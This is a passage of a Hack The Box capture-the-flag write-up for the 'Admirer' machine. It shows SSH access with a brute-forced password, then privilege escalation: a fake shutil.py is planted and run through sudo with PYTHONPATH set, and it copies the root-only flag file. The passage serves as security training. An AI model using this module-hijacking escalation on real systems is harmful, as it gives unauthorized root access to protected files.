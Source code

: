 {{< figure src="__GHOST_URL__/content/images/2020/05/admirer_hydra.gif" >}}

Sure enough we find a combo that works - `Waldo:&<h5b~yK3F#{PaPB&dA}{H>` We log in via `SSH` and get our `user.txt` flag! Now that we're in, we need to enumerate internally. In this case we'll copy over `linPEAS` and see what it shows. We see these two entries that are paticularly interesting:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-64.png" >}}

{{< figure src="__GHOST_URL__/content/images/2020/05/image-65.png" >}}

If we look at the script `admin_tasks.sh` we see this line of code:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-66.png" >}}

This file is being called and we have the ability to read the file as well. So let's take a look at this script too.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-67.png" >}}

At first glance it might not seem obvious but when we piece together all three of our priviledges combined, we see the picture a bit more clearly. We can `SETENV` in our sudo command. We can call a script that runs another script as root. We can view the contents of a key script written in python. We're going to leverage [Python Path Hijacking](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542133788.pdf) or [Python Module Hijacking](http://savagejen.github.io/blog/2013/04/28/python-module-hijacking/). 

We will tell the Linux system what our PYTHON path is. Then we'll create a fake `shutil.py` library that gets called when we execute the script. Since the script runs that command as root, the script also runs as root, so we'll copy the root flag somewhere else.

First lets make a new directory and set it as the `PYTHON PATH`.

Command:
`mkdir rfio`
`export PYTHONPATH='/tmp/rfio'`

Next we'll make our fake `shutil.py` library.

Command:
`nano shutil.py`

With the following code:
```python
#!/usr/bin/python3

import  os

def make_archive():
    os.system('cp /root/root.txt /tmp/rfio/root.txt')
    os.system('chmod 755 /tmp/rfio/root.txt')
	
make_archive()
```
`chmod +x shutil.py`

Now we just call the `admin_task.sh` script.

Command:
`sudo PYTHONPATH=/tmp/rfio /opt/scripts/admin_task.sh`

{{< figure src="__GHOST_URL__/content/images/2020/05/admirer_root.gif" >}}

There we have it, the root flag has been copied over!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



